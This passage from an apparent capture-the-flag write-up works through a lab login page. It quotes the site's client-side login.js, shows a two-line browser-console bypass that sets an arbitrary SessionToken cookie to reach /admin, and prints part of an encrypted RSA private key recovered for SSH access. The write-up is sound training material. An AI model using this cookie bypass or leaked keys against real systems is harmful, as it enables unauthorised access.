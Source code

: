 ![](2.png)

I try some common credentials like `admin:password` and `admin:admin` with no luck. Instead, I check out the `login.js` page and I find something interesting.

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The `login` function sends the user's credentials to the `/api/login` endpoint and returns an error if your credentials are incorrect or sets a session token if your credentials are correct. We can abuse this to manually set our session token to `/admin` in hopes of bypassing the login form.

We can use our browser console to run the code under the else clause to gain access.
```js
Cookies.set("SessionToken","value") //the SessionToken value is not important in this case
window.location = "/admin"
```

Once we reload, we get a rsa private key meant for someone named James that we can use to login via SSH.

```
┌──(kali㉿kali)-[~/ctfs/overpass]
└─$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
```